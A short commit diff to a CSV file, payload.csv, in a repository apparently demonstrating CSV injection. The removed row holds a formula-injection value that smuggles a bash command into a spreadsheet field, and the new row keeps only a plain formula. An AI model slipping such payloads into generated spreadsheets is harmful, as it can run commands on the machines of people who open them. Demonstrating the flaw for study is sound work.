

Before and after one commit to debshubrac/csv-injection, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -3,2 +3,2 @@ UserId,BillToDate,ProjectName,Description,DurationMinutes
 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
-2,2017-07-25,Important Client,"=2+5+bash|'ls'!A0", 240
+2,2017-07-25,Important Client,"=2+5", 240
```
